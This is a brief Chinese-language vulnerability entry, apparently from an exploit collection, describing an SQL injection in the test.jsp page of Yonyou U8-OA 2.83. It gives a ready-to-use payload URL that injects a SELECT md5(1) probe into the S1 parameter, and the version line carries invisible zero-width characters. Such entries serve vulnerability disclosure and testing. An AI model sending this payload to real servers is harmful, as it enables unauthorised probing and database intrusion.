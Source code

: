 ### 漏洞描述：

用友U8 OA test.jsp的参数存在SQL注入漏洞。

### 影响版本：

用友网络科技股份有限公司 用友U8-OA企业版 2.83‌‌‌‏‍‎‌‏‌‏‌‎‎‌‏‎‏‌‌‎‌‏‌‏‏‌‌‏‍‎‏‏‌‏‌‍​‎‌‏‎‏‎‍‍‏‎‎‏

### Payload：

```jsx
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20md5(1))
```

---
